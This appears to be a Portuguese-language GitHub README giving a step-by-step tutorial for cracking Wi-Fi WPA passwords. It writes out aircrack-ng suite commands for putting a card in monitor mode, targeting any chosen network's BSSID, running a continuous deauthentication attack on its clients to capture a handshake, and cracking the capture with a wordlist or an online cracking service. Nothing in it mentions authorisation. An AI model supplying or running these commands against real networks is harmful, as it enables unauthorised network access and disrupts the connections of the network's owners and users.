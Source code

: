 # Wifi Hacking Passwords

Vamos utilizar uma metodologia de aprendizado.

Pré requisitos:
 - SO Ubuntu 22.04
 - Placa Wifi
 - Instalação dos pacotes abaixo:
```shell
apt update;apt install -y airgraph-ng aircrack-ng
```
Start check nas interface:
```shell
airmon-ng check kill && airmon-ng start wlp3s0
```
![fotowifi](https://i.postimg.cc/cJV78w8s/image.png)

Scanner do SSID Disponiveis:
```shell
airodump-ng wlp3s0
```
![fotoexpamle](https://i.postimg.cc/brqtQTYj/image.png)

Agora scanneado pega um SSID de sua escolha e visualize o canal exemplo 9.
 - Exemplo BSSID: C4:0D:96:E7:09:44
 - Canal: 9
 - verificando o Fabricante se necessário: `grep C40D96 /usr/share/ieee-data/oui.txt`
 - ![fabricanteplaca](https://i.postimg.cc/JhwtNqKd/image.png)
```shell
airodump-ng -c 9 --bssid C4:0D:96:E7:09:44 -w kelseysantos wlp3s0
```
![escanner](https://i.postimg.cc/vHcmCjNN/image.png)

Utilizando agora o Aireplay para injetar drow nos clientes:
```shell
aireplay-ng -a C4:0D:96:E7:09:44 --deauth 0 wlp3s0
```
Ele vai criar arquivos dentro da pasta um desses arquivos é o kelseysantos-01.cap onde você irá verificar se tem **handshake**, com o comando **aircrack-ng**.
```shell
aircrack-ng kelseysantos-01.cap
```
![handshake](https://i.postimg.cc/XqZ0DMYK/image.png)

Pronto agora é só utilizar um site para gerar um arquivo h22000 como o [HASHCAT](https://hashcat.net/cap2hashcat/).
 - Converta seu arquivo [kelseysantos-01.cap](https://i.postimg.cc/jjZ0xqWQ/image.png) no site, faça o upload do arquivo e clique em **convert** ele vai retornar um arquivo com extensão **.hc22000**, exemplo do arquivo: **1356859_1733616685.hc22000**.
 - Agora entre no site [www.onlinehashcrack.com](https://bit.ly/4fY5C8K) e faça o seu cadastro para upar o seu arquivo hc22000 e aguardar o resultado de uma senha.

Outra forma é utilizar um banco de palavras chamado **worldlist** ou **worldpass**, juntamente com o **aircrack-ng**, no comando abaixo:
 - Exemplo de site para baixar worldlist, [AQUI](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials).
```shell
aircrack-ng kelseysantos-01.cap -w worldlist.txt
```

Obrigado.

# Kelsey Santos

![card](https://github-readme-stats.vercel.app/api?username=kelseysantos&theme=default&show_icons=true)

![kelseysantos](https://github-readme-stats.vercel.app/api/top-langs/?username=kelseysantos&hide=html&layout=compact&theme=highcontrast)